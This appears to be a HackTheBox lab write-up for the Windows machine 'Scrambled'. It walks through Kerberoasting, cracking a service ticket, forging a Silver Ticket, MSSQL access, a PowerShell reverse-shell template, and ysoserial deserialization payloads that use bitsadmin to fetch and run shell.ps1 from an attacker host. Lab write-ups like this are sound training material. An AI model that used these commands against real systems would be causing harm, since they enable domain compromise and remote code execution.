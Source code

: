 ```yaml
---
layout: default
title: "Scrambled"
parent: HackTheBox
---
```


# Box Info

|-------|---------|
| Name | Scrambled 🥚 |
| OS | Windows 🪟 |
| Rating | Easy |



## Enumration

## Nmap Scan

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-17 05:17:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2022-06-17T05:17:47
|_  start_date: N/A
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
4411/tcp open  found?
|     SCRAMBLECORP_ORDERS_V1.0.3;
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open  mc-nmf  .NET Message Framing
```

## Enumrating the WEB-Server
The is nothing much on the web server but few things which can be noted:
- NTML Authentication is disabled
- Ksimpson can be valid username
- Reseted accounts have their passwords same as their username

## Getting a TGS
We validated the user `ksimpson` and it's password same as username using [Kerbrute](https://github.com/TarlogicSecurity/kerbrute)

And now using Impacket's `GetUserSPNs.py` we can see which service our user `ksimpson` can request for

```shell
$ python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023  
```

So we can request a **TGS** for `sqlsvc` service using 
```shell
$ python3 spn.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local -request
```

{: .important-title }
>{: .opaque }
> Issue with Impacket while using Kerberose Authentication
>
>  [Impacket Issue 1206](https://github.com/SecureAuthCorp/impacket/issues/1206)


After getting the `TGS` tried cracking it using `john` and got the password for the service's account `sqlsvc`

```shell
$ john ./krbtgs --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:15 DONE (2022-06-18 02:53) 0.06464g/s 693566p/s 693566c/s 693566C/s Peguero..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```

## Forging a Silver Ticket

To forge a `Silver Ticket` we need 
- Service account SPN
- Service account Password in NT hash format
- Domain SID

We can use a tool called [Go-WindapSearch](https://github.com/ropnop/go-windapsearch) to enumrate all users,computers and groups etc. Using this tool I got all users with their SPNs and SIDs

```shell
$ ./windapsearch -d 10.10.11.168 -u ksimpson@scrm.local -p ksimpson --secure -j -m users --full
```

After getting all the information we can use another useful Impacket tool called `ticketer` to forge a Silver Ticket

```shell
$ python3 ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip 10.10.11.168 -spn "MSSQLSvc/dc1.scrm.local"  Administrator
```


## Getting User

Then we can access the **MS SQL** service

```shell
$ export KRB5CCNAME=Administrator.ccache

$ impacket-mssqlclient -k DC1.scrm.local
```

From there got a username and a password
`MiscSvc : ScrambledEggs9900`

We can get a shell from here using `enable_cmd_xp` and executing command to get a powershell reverse shell

since we got the password for a user, we can switch to that user using 

```powershell
$user='scrm\MiscSvc';$pass='ScrambledEggs9900';try { Invoke-Command -ScriptBlock { <Reverse Shell here> } -ComputerName DC1 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }
```

We can directly get the shell as `MiscSvc`

# Privilage Escalation

In the `Shares` folder we have access to `IT\Apps\` were we can find an `.exe` and a `.dll`. The Client to access the service on port `4411`.

To analyze the `.exe` and `.dll` I used `dotPeek` software.
![1](../../resources/scrambled/1.png)

`UploadOrder` is a command as well ==> `UPLOAD_ORDER`. On running this command it seems like it's doing some deserialization.

References :
+ [Insecure deserialization Json .Net](https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a)
+ [Yet another .Net deserialization](https://medium.com/@frycos/yet-another-net-deserialization-35f6ce048df7)
+ Reverse Shell used : [Ivan Sincek PowerShell reverse TCP](https://github.com/ivan-sincek/powershell-reverse-tcp)

```shell
C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "bitsadmin /transfer n http://10.10.14.10/shell.ps1 C:\Temp\shell.ps1"

C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "PowerShell -ExecutionPolicy Unrestricted -File C:\Temp\shell.ps1"
```

And we get shell as **Administrator**